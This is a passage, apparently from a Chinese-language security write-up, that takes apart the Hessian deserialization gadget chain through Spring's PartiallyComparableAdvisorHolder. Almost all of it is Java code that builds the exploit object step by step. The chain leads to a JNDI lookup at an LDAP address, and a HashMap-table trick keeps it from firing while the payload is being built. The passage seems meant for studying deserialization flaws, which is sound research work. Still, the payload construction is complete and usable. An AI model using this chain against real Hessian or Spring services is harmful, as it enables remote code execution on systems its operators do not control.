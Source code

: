 这里将Hessian对SpringPartiallyComparableAdvisorHolder这条利用链提取出来看得比较清晰些：

```
String jndiUrl = "ldap://localhost:1389/obj";
SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
bf.setShareableResources(jndiUrl);

//反序列化时BeanFactoryAspectInstanceFactory.getOrder会被调用，会触发调用SimpleJndiBeanFactory.getType-&gt;SimpleJndiBeanFactory.doGetType-&gt;SimpleJndiBeanFactory.doGetSingleton-&gt;SimpleJndiBeanFactory.lookup-&gt;JndiTemplate.lookup
Reflections.setFieldValue(bf, "logger", new NoOpLog());
Reflections.setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());

//反序列化时AspectJAroundAdvice.getOrder会被调用，会触发BeanFactoryAspectInstanceFactory.getOrder
AspectInstanceFactory aif = Reflections.createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
Reflections.setFieldValue(aif, "beanFactory", bf);
Reflections.setFieldValue(aif, "name", jndiUrl);

//反序列化时AspectJPointcutAdvisor.getOrder会被调用，会触发AspectJAroundAdvice.getOrder
AbstractAspectJAdvice advice = Reflections.createWithoutConstructor(AspectJAroundAdvice.class);
Reflections.setFieldValue(advice, "aspectInstanceFactory", aif);

//反序列化时PartiallyComparableAdvisorHolder.toString会被调用，会触发AspectJPointcutAdvisor.getOrder
AspectJPointcutAdvisor advisor = Reflections.createWithoutConstructor(AspectJPointcutAdvisor.class);
Reflections.setFieldValue(advisor, "advice", advice);

//反序列化时Xstring.equals会被调用，会触发PartiallyComparableAdvisorHolder.toString
Class&lt;?&gt; pcahCl = Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
Object pcah = Reflections.createWithoutConstructor(pcahCl);
Reflections.setFieldValue(pcah, "advisor", advisor);

//反序列化时HotSwappableTargetSource.equals会被调用，触发Xstring.equals
HotSwappableTargetSource v1 = new HotSwappableTargetSource(pcah);
HotSwappableTargetSource v2 = new HotSwappableTargetSource(Xstring("xxx"));

//反序列化时HashMap.putVal会被调用，触发HotSwappableTargetSource.equals。这里没有直接使用HashMap.put设置值，直接put会在本地触发利用链，所以使用marshalsec使用了比较特殊的处理方式。
```

```
HashMap&lt;Object, Object&gt; s = new HashMap&lt;&gt;();
Reflections.setFieldValue(s, "size", 2);
Class&lt;?&gt; nodeC;
try {
    nodeC = Class.forName("java.util.HashMap$Node");
}
catch ( ClassNotFoundException e ) {
    nodeC = Class.forName("java.util.HashMap$Entry");
}
Constructor&lt;?&gt; nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
nodeCons.setAccessible(true);

Object tbl = Array.newInstance(nodeC, 2);
Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
Reflections.setFieldValue(s, "table", tbl);
```
